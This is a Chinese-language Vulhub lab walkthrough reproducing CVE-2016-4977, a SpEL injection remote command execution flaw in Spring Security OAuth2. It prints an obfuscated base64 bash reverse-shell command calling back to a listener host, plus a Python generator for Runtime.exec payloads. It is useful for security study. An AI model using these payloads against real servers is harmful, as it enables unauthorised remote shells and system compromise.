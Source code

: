 # Spring Security OAuth2 远程命令执行漏洞 CVE-2016-4977

## 漏洞描述

Spring Security OAuth 是为 Spring 框架提供安全认证支持的一个模块。在其使用 whitelabel views 来处理错误时，由于使用了Springs Expression Language (SpEL)，攻击者在被授权的情况下可以通过构造恶意参数来远程执行命令。

参考链接：

- http://secalert.net/#CVE-2016-4977
- https://deadpool.sh/2017/RCE-Springs/
- http://blog.knownsec.com/2016/10/spring-security-oauth-rce/

## 环境搭建

Vulhub执行如下命令启动漏洞环境：

```
docker-compose up -d
```

启动完成后，访问`http://your-ip:8080/`即可看到web页面。

## 漏洞复现

访问`http://your-ip:8080/oauth/authorize?response_type=${233*233}&client_id=acme&scope=openid&redirect_uri=http://test`。首先需要填写用户名和密码，我们这里填入`admin:admin`即可。

可见，我们输入是SpEL表达式`${233*233}`已经成功执行并返回结果：

![image-20220301140432346](./images/202203011404402.png)

java反弹shell的命令如下：

```
bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTc0LjEyOC85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}
```

然后，我们使用[poc.py](https://github.com/vulhub/vulhub/blob/master/spring/CVE-2016-4977/poc.py)来生成反弹shell的POC：

```
#!/usr/bin/env python

message = input('Enter message to encode:')

poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

for ch in message[1:]:
   poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch) 

poc += ')}'

print(poc)
```

![image-20220301141331441](./images/202203011413565.png)

如上图，生成了一大串SpEL语句。附带上这个SpEL语句发送请求：

![image-20220301141502582](./images/202203011415696.png)

监听999端口，成功接收反弹shell（`/bin/bash`反弹成功，`bash`反弹失败）：

![image-20220301141258919](./images/202203011412018.png)